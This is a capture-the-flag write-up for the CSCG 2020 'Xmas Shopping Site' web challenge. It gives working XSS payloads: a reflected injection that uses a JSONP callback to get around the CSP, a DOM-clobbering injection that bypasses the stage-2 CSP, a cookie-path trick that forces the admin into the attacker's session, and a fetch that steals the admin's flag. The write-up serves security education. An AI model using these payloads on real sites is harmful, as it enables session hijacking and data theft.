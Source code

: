 ```yaml
---
layout: post
title: "CSCG 2020: Xmas Shopping Site"
categories: writeups cscg20
tags: exploitation
authors:
  - mawalu
---
```


Like a few other members of KITCTF I participated in the 2020 Cyber Security Challenge Germany Qualification. This is a writeup for "Xmas Shopping Site", one of the three web challenges that were part of the CTF.

### Overview

We are given a link to an online shop at `http://xss.allesctf.net/`. The subdomain already seems to be a hint that this is a client-side channel.

![website screenshot](/imgs/cscg20-xmas-1.png)

The site allows filtering the items using a search bar and adding items to our cart. In addition to this we can submit links for the admin to check and there is a link to "Stage2":

![stage2 screenshot](/imgs/cscg20-xmas-2.png)

The link looks like this `http://stage2.xss.allesctf.net/?token=5ef8ecee6a1ef` and if we change the token we can't open the stage2 page.

Besides the "change background" button in the top right corner, this page is completely static.

### Exploiting stage 1

The search form is not escaping HTML inputs at all and also includes the search term into the page:

```html
<b>"<script>alert('test')</script>"</b> konnte nicht gefunden werden 🙁🙁🙁
```

This isn't directly exploitable because of the [CSP header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) of the page includes `default-src 'self' http://*.xss.allesctf.net;` which prevents script tags from being executed if they aren't manually whitelisted in the CSP.

If we look at other resources loaded by the page we can see a call to `/items.php?cb=parseItems`. Assuming `cb` is short for callback this looks like a [JSONP](https://en.wikipedia.org/wiki/JSONP) request. The response to this request looks like this

```javascript
parseItems([{"title": "..."}])
```

which confirms our assumtion. We can combine this with the inital HTML injection vulnerability we found earlier to get a full XSS vulnerability:

```html
<script src="/items.php?cb=alert('test')"></script>
```

This is allowed by the CSP since we don't add the javascript code directly to the dom but load it from the whitelisted `xss.allesctf.net` domain.

### Exploring stage 2

I assumed that with full code execution on stage 1 it should be easy to redirect the user to the second stage. Ignoring the token parameter and all potential problems I started to explore stage 2 independently from the previous one. Since the background change is the only dynamic element on the second stage I took a closer look at it.

The currently selected background theme is set as a hidden input element:

```html
<!-- set bg color -->
<input type="hidden" id="bg" value="tree">

<script nonce="vGXr3XcAC1g67ZaCzeAvTCzPoHc=">
    var backgrounds = {
        'red': [
            '<img class="bg-img" src="/static/img/red.png"></img>'
        ],
        'green': [
            '<img class="bg-img" src="/static/img/green.png"></img>'
        ],
        'tree': [
            '<img class="bg-img" src="/static/img/tree.png"></img>'
        ]
    }
</script>
[...]
<!-- What is CORS? Baby don't hurt me, don't hurt me - no more! -->
<b>CSCG{XSS_THE_ADMIN_FOR_THE_REAL_FLAG:>}</b>
```

This value is read in the `background.js` script and the corresponding element gets added to the dom:

```javascript
$(document).ready(() => {
    $("body").append(backgrounds[$("#bg").val()]);
});
```

To change the background image a post request including the `bg` parameter is sent to the stage2 endpoint.

### Exploiting stage2

We can set our own `bg` value by sending a post request to stage2. Like the search input in stage1 the `bg` value is not getting validated or escaped by the application. As a result we can modify the DOM of the page by setting a background like this:

```html
beginngin of our injection"> <b>some new tags</b> <!-- end of our injection
```

The resulting DOM looks like this:

```html
<input type="hidden" id="bg" value="beginngin of our injection"> <b>some new tags</b> <!-- end of our injection">
<script>
[...]
<!-- What is CORS? Baby don't hurt me, don't hurt me - no more! -->
<b>CSCG{XSS_THE_ADMIN_FOR_THE_REAL_FLAG:>}</b>
```

Stage 2 also has a CSP set that prevents us from using direclty executing code. In addtion to that it also prevents us from using the gadget we found in the previous stage to inject a script tag. But we can include a starting HTML comment tag to remove everything between the hidden input and the flag. Using a less known javascript features we can also create our own `backgrounds` array and include our own code that way:

```html
innerHTML"><div id="backgrounds"><script>alert('test')</script></div> <!--
```

This achieves three things:

 * Set the value of the `bg`  input to `innerHTML`
 * Create a new div with the id `backgrounds` and some javascript as content
 * Start an HTML comment so everything until the comment is closed by the existing comment tag gets ignored by the browser

DOM elements that have an `id` attribute are available as global variables within javascript. So this

```javascript
// $("#bg").val() returns innerHTML since thats what we set the input to
$("body").append(backgrounds['innerHTML']); // similar to backgrounds.innerHTML
```

appends the script we place in our div to the DOM. Because `background.js` is whitelisted in the CSP it is also allowed to create new script tags. This allows us to bypass the CSP and execute arbitrary javascript.

### Combining the two

Completing the challenge with this information is quite simple

 * Send the admin a link to stage one with a malicious search parameter
 * Use the code execution in stage1 to store the stage2 exploit in the admin's `bg` value
 * Redirect the admin to stage2, the second exploit starts
 * Read the flag and redirect the admin to a domain controlled by you. Include the flag in the URL
 * Profit!

This is not what I did during the CTF :D Instead of storing the stage 2 payload in the admin's session during stage 1, I stored it in my own session. My stage 1 exploit places a new session cookie in the admin's browser so they "see" my malicious background when he visits stage 2:

```javascript
// cookie and token are replaced with values from my session
document.cookie = 'PHPSESSID=${cookie};domain=.xss.allesctf.net;path=/index.php';
location.href='http://stage2.xss.allesctf.net/index.php?token=${token}
```

This was a bit tricky since the session cookie has the `httpOnly` flag set so we can't modify it. This code sets a new cookie but with an path that is longer than the one by the default session cookie (`/index.php` vs `/`). As a result the browser preferse my cookie when the admin visits stage2.

The stage2 does not simply redirect the admin either, Instead I store the flag as new `bg` session value. Since the admin and I share a session I can retrieve the value in my browser:

```html
nnerHTML"> <div id="backgrounds"><script>fetch(window.location.href, {
        headers: {'Content-type': 'application/x-www-form-urlencoded'},
        method: "POST",
        credentials: "include",
        body: 'bg=' + $('b').text()
    });</script>
</div> <!-- a
```

### Final words

I'm always happy to see a client side web challenge and this was a really nice one. And once again I learned that I have to think simpler from time to time